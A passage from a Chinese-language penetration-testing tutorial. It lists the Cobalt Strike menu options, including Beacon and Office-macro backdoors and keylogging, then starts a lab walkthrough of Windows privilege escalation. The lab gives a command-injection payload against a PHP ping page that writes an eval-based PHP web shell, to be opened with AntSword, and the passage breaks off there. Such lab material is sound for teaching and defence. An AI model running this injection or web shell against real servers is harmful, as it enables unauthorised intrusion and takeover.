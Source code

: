 ##### 菜单栏视图


```python
1.新建连接
2.断开当前连接
3.监听器
4.改变视图为Pivot Graph(可以显示各个目标的关系)
5.改变视图为Session Table(会话列表)
6.改变视图为Target Table(目标列表)
7.查看凭据信息a
8.查看文件下载
9.查看键盘记录
10.查看屏幕截图
11.生成无状态Beacon后门
12.java自签名程序攻击
13.生成office宏后门
14.生成脚本通过web传递(利用powershell，bitsadmin，regsvr32生成会话)
15.在Cobalt Strike的web服务上托管一个文件(提供一个文件下载)
16.管理Cobalt Strike上运行的web服务
17.帮助
18.关于
```



# Windows权限提升

## 权限提升

提权是指把普通用户的权限进行提升，也叫特权提升，在渗透测试中，通常是利用各种漏洞来提升webshell权限以夺得服务器权限。

## 一.系统内核漏洞提权

当目标系统存在该漏洞且没有更新安全补丁时，利用已知的系统内核漏洞进行提权，我们往往可以获得系统级别的访问权限。

### 实验环境

| 机器   | 类型    | IP            |
| ------ | ------- | ------------- |
| 攻击机 | kali    | 192.168.70.4  |
| 靶机   | win2012 | 192.168.70.28 |

#### 前期拿低权限

http://192.168.70.28/vul/rce/rce_ping.php

```python
127.0.0.1|echo "<?php @eval($_POST["xxx"]);?>"  > xxx.php
```

蚁剑连接
